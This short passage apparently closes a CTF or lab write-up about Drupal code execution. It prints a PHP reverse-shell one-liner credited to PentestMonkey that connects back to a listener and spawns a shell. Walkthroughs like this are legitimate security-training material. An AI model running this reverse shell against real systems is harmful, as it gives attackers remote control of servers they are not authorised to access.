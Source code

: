 ![drupal_code_execution](/assets/images/2020-07-03-16-12-42.png)

I could now use this method to initiate a reverse shell, by pasting the php code for one such as this from PentestMonkey:

```text
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

All done. See you next time.
